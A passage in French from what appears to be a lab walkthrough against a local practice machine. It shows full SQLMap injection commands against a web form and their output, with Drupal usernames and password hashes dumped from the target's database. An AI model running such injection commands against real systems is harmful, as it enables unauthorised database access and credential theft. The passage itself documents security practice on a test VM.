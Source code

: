 _Nota Bene : pour une raison que je ne saurais expliquer, SQLMap n'est pas en mesure de récupérer le contenu de l'unique table 'contact' de la base de données 'contacts'. Pour rappel, cette table est censée contenir l'ensemble des informations de la mailing-list de Phake Organization (nom de famille, numéro de téléphone, adresse e-mail et nom de l'entreprise). Pas de panique cependant, il est toujours possible de la récupérer par d'autres moyens._

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d" --dbms=MySQL --dump -D contacts -T contact

--snip--

[13:31:13] [INFO] fetching columns for table 'contact' in database 'contacts'
[13:31:13] [INFO] used SQL query returns 5 entries
[13:31:13] [INFO] resumed: id
[13:31:13] [INFO] resumed: int(10) unsigned
[13:31:13] [INFO] resumed: name
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] resumed: email
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] resumed: phone
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] resumed: org
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] fetching entries for table 'contact' in database 'contacts'
[13:31:13] [WARNING] the SQL query provided does not return any output
[13:31:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[13:31:13] [INFO] fetching number of entries for table 'contact' in database 'contacts'
[13:31:13] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:31:13] [INFO] retrieved: 
[13:31:13] [WARNING] unable to retrieve the number of entries for table 'contact' in database 'contacts'
```

Tant pis ! Au moins SQLMap aura pu récupérer la liste des utilisateurs de Drupal... ainsi que ce qui semble être des mots de passe hashés.

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d" --dbms=MySQL --dump -D drupal -T users

--snip--
[13:50:50] [INFO] fetching columns for table 'users' in database 'drupal'
[13:50:50] [INFO] used SQL query returns 19 entries
[13:50:50] [INFO] retrieved: uid
[13:50:50] [INFO] retrieved: int(10) unsigned
[13:50:50] [INFO] retrieved: name
[13:50:50] [INFO] retrieved: varchar(60)
[13:50:50] [INFO] retrieved: pass
[13:50:50] [INFO] retrieved: varchar(32)
[13:50:50] [INFO] retrieved: mail
[13:50:50] [INFO] retrieved: varchar(64)
--snip--
[13:50:50] [INFO] retrieved: jennifer
[13:50:50] [INFO] retrieved: e3f4150c722e6376d87cd4d43fef0bc5
--snip--
[13:50:50] [INFO] retrieved: patrick
[13:50:50] [INFO] retrieved: 5f4dcc3b5aa765d61d8327deb882cf99
--snip--
[13:50:50] [INFO] retrieved: andy
[13:50:50] [INFO] retrieved: b64406d23d480b88fe71755b96998a51
--snip--
[13:50:50] [INFO] retrieved: loren
```